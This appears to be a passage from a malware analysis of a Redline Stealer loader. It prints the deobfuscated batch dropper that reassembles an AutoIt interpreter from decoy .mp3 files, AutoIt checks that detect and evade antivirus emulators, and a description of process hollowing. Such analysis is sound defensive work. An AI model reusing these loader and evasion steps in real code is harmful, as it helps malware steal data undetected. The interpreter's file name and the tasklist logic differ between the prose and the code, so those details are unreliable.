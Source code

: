 ### Obfuscated BAT Script

Once extracted, the installer executes `cmd /c cmd < Quella.mp3 & ping -n 5 localhost`, which executes `tasklist` to identify if `PSUAService.exe` (PandaAV) is currently running. If the process is not running, it uses `autoit.exe` as the file name for the AutoIt interpreter. Otherwise, the AutoIt interpreter is named `Magenta.exe.pif`.

Next, the magic bytes `MZ` is written to the start of the file to contain the AutoIt interpreter. Once written, the file `%TEMP%\Che.mp3` is filtered by `findstr` to exclude the string a string (Figure 2), which results in writing the rest of the AutoIt interpreter to the `%TEMP%` directory as either `autoit.exe` or `Magenta.exe.pif`. Next, `%TEMP%\Travolge.mp3` is moved to the file `%TEMP%\i`, which is then executed with the AutoIt interpreter (Figure 2).

```powershell
Set AUTOIT=Mantenga.exe.pif
tasklist /FI "imagename eq PSUAService.exe" 2>NUL | find /I /N "psuaservice.exe">NUL
if not errorlevel 1 Set AUTOIT=autoit.exe
<nul set /p = "MZ" > %AUTOIT%
findstr /V /R "^diLJRRSZItYtjhNoXjwrIGvJMByETfIXXTtuIEKyNckyqsZonxjyqPIKKwXfLhuzcquzoGAzCVfhxsJcCXuneCXokxvGGxzAgSJZlF$" Che.mp3 >> %AUTOIT%
Move Travolge.* i
%AUTOIT% i
ping localhost -n 5
```
*Figure 2: Redline Stealer Deobfuscated Batch Script*

### CipherIT (AutoIT Script)

Next, the AutoIT interpreter executes `i`.  Then the AutoIT script performs process hollowing, creates the process `jsc.exe` in suspended mode, hollows the process then injects the process with *Redline Stealer*.

```python
def decode_string(string: str, key: int) -> str:
    return ''.join([chr(int(c) - int(key)) for c in string.split('U')])
```

```vb
; BitDefender Emulator
If(Execute("EnvGet('COMPUTERNAME')") = "tz") Then 
	Execute("WinClose(AutoItWinGetTitle())")

; Windows Defender Emulator
If(FileExists("C:\aaa_TouchMeNot_.txt")) Then 
	Execute("WinClose(AutoItWinGetTitle())")

; Kaspersky Emulator
If(Execute("EnvGet('COMPUTERNAME')") = "NfZtFbPfH") Then 
	Execute("WinClose(AutoItWinGetTitle())")

; AVG Emulator
If(Execute("EnvGet('COMPUTERNAME')") = "ELICZ") Then 
	Execute("WinClose(AutoItWinGetTitle())")
```
